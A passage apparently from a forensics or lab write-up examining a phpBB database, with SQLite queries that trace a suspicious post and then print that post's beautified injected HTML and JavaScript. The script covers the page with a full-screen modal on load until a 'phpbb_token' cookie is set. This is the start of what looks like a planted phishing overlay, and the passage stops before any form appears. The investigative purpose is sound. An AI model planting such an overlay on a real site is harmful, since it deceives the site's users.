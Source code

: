 

    sqlite> select post_id, forum_id, topic_id, poster_ip, datetime(post_time, 'unixepoch'), post_username, post_subject, post_attachment, post_edit_count from phpbb_posts where poster_id = 52;
    9|2|2|10.10.0.78|2023-04-25 12:17:22||Hello Everyone|0|0



Searching by `post_ip` returns the same single post, with `post_id` of 9
(Task 3), that was created at 1682425042, which is Tuesday, April 25,
2023 12:17:22 PM.

#### Post Analysis

The query `select post_text from phpbb_posts where poster_id = 52;`
returns HTML content which beautifies to:


    <div>
      <style>
        body {
          z-index: 100;
        }

        .modal {
          position: fixed;
          top: 0;
          left: 0;
          height: 100%;
          width: 100%;
          z-index: 101;
          background-color: white;
          opacity: 1;
        }

        .modal.hidden {
          visibility: hidden;
        }
      </style>
      <script type="text/javascript">
        function sethidden() {
          const d = new Date();
          d.setTime(d.getTime() + (24 * 60 * 60 * 1000));
          let expires = "expires=" + d.toUTCString();
          document.cookie = "phpbb_token=1;" + expires + ";";
          var modal = document.getElementById('zbzbz1234');
          modal.classList.add("hidden");
        }
        document.addEventListener("DOMContentLoaded", function(event) {
          let cookieexists = false;
          let name = "phpbb_token=";
          let cookies = decodeURIComponent(document.cookie);
          let ca = cookies.split(';');
          for (let i = 0; i < ca.length; i++) {
            let c = ca[i];
            while (c.charAt(0) == ' ') {
              c = c.substring(1);
            }
            if (c.indexOf(name) == 0) {
              cookieexists = true;
            }
          }
          if (cookieexists) {
            return;
          }
          var modal = document.getElementById('zbzbz1234');
          modal.classList.remove("hidden");
        });